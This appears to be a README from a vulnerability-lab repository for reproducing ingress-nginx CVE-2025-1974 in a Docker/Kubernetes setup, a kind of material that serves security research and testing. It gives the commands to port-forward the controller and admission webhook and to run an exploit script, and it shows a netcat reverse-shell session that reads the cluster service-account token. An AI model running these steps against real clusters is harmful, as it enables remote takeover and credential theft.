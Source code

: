 # ingress-nginx CVE-2025-1974

* dqd:
  * ssst0n3/docker_archive:cve-2025-1974 -> ssst0n3/docker_archive:cve-2025-1974_v0.1.0
  * ssst0n3/docker_archive:cve-2025-1974_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2025-1974 -> ssst0n3/docker_archive:ctr_cve-2025-1974_v0.1.0
  * ssst0n3/docker_archive:ctr_cve-2025-1974_v0.1.0

## usage

```shell
cd vul/CVE-2025-1974
docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
kubectl --kubeconfig=kubeconfig get pods -A
./ssh
```

## reproduce

```shell
kubectl --kubeconfig=kubeconfig port-forward -n ingress-nginx svc/ingress-nginx-controller 8080:80 &
kubectl --kubeconfig=kubeconfig port-forward -n ingress-nginx svc/ingress-nginx-controller-admission 8443:443 &
```

```shell
python3 exploit.py
```

```shell
$ nc -nlvp 2333
listening on [any] 2333 ...
connect to [172.17.0.1] from (UNKNOWN) [172.23.0.2] 52236
ls -lah /var/run/secrets/kubernetes.io/serviceaccount/token
lrwxrwxrwx    1 root     root          12 Mar 29 03:53 /var/run/secrets/kubernetes.io/serviceaccount/token -> ..data/token
```
